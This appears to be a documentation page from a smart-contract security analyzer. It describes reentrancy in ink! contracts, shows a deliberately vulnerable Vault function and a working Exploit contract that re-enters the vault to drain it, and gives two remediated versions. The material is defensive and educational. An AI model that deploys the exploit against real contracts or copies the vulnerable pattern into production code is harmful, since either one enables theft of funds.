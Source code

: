 # Reentrancy
## Description
* Vulnerability Category: `Reentrancy`
* Severity: `Critical`
* Detectors: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy-2)
* Test Cases: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2), [`reentrancy-3`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-3)

Smart contracts can call other contracts and send tokens to them. These
operations imply external calls where control flow is passed to the called
contract until the execution of the called code is over. Then the control
is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract
to execute any arbitrary code. This includes calling back the caller contract,
an attack known as reentrancy. This kind of attack was used in Ethereum for
the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario
In order to exemplify this vulnerability we developed two contracts:
a `Vault` contract and an `Exploit` contract.

The `Vault` contract provides functions to deposit, withdraw, check balance,
and call a function on another contract with a specified value.

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Th function `call_with_value function()` allows the contract owner to call
other contracts on the blockchain and transfer a specified amount of value in
the process. The function takes three arguments:
- *address*: The address of the contract to call.
- *amount*: The amount of balance to transfer in the call.
- *selector*: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have
enough funds to perform the transfer. If the balance is sufficient, a new call
is constructed using the `build_call()` function provided by the
`env::call module`.

The `build_call()` function constructs a new contract call with the specified
arguments. In this case, the call method is used to specify the address of the
contract to call, the transferred_value method is used to specify the amount
of balance to transfer, and the exec_input method is used to specify the
function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called
contract to re-enter the current contract if necessary. This possibility to
re-enter the contract, together with an appropriate 32-bit function selector
will allow us to repeatedly withdraw balance from the contract, emptying the
Vault.

In order to perform this attack, we will use the `exploit()` function of the
`Exploit` contract that we outline below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```

The vulnerable code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/vulnerable-example).

### Deployment
Vault and Exploit files can be found under the directories
[vulnerable-example/exploit](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/vulnerable-example/exploit) and
[vulnerable-example/vault](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/vulnerable-example/vault).
The whole exploit example can be run automatically using the `deploy.sh` file.

## Recommendation
In general, risks associated to reentrancy can be addressed with the
Check-Effect-Interaction pattern, a best practice that indicates that external
calls should be the last thing to be executed in a function. In this example,
this can be done by inserting the balance before transferring the value (see
[remediated-example-1](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/remediated-example)).


```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/remediated-example).

Alternatively, if reentrancy by an external contract is not needed, the
`set_allow_reentry(true)` should be removed altogether (see
[remediated-example-2](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2/remediated-example)). This is equivalent in Substrate to using a
[reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard)
like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2/remediated-example).

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://stermi.medium.com/the-ethernaut-challenge-9-solution-re-entrancy-635303881a4f)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)

